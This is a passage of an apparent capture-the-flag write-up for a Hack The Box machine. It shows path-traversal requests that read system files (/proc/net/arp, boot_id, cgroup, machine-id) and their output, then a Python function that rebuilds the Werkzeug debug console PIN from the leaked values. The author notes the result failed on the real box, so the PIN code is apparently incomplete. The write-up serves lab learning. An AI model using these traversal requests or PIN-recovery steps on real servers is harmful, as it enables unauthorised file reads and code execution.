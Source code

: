 The username should be `root`, according to the env variables.

Running the app in a Docker container, we can inspect the running app and find:

- the module name: "flask.app"
- the app name: "Flask"

The module file is displayed in error messages: "/usr/local/lib/python3.10/site-packages/flask/app.py".

The node UUID is actually the MAC address interpreted as a number. It is readable in the system files:

```shell
GET uploads/..//proc/net/arp HTTP/1.1
# IP address       HW type     Flags       HW address            Mask     Device
# 172.17.0.1       0x1         0x2         02:42:9b:2a:8f:43     *        eth0
GET uploads/..//sys/class/net/eth0/address HTTP/1.1
# 02:42:ac:11:00:04
```

And finally, Werkzeug produces the machine ID by reading from a few files:

```shell
GET uploads/..//etc/machine-id HTTP/1.1
# FileNotFoundError: [Errno 2] No such file or directory: '/etc/machine-id'
GET uploads/..//proc/sys/kernel/random/boot_id HTTP/1.1
# 98a25343-6e4d-475e-bdfd-9fbb93cd682c
GET uploads/..//proc/self/cgroup HTTP/1.1
# 12:cpuset:/docker/ae45183507f9f2356400ddcc5309795d515f733553f6a82d533f5c3692b0d8ab
```

The first hit is the machine ID, here it's "98a25343-6e4d-475e-bdfd-9fbb93cd682c".

### Generating the pin

Once cleaned / factored, the function that generates the pin is quite straightforward:

```python
def generate_pin(username, modname, appname, modfile, nodeuuid, machineid) -> str:

    h = hashlib.sha1()
    for bits in [username, modname, appname, modfile, nodeuuid, machineid]:
        h.update(bits)
    h.update(b"cookiesalt")

    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

    return "-".join(
        num[x : x + 3].rjust(3, "0")
        for x in range(0, len(num), 3))
```

> Debugger PIN: 952-746-163

This worked on my local Docker container but not on the box!


[author-profile]: https://app.hackthebox.com/users/476556
[debug-console]: images/debug-console.png
[gitea]: images/gitea.png
[hacktricks-pin]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
[pin-leak]: images/pin-leak.png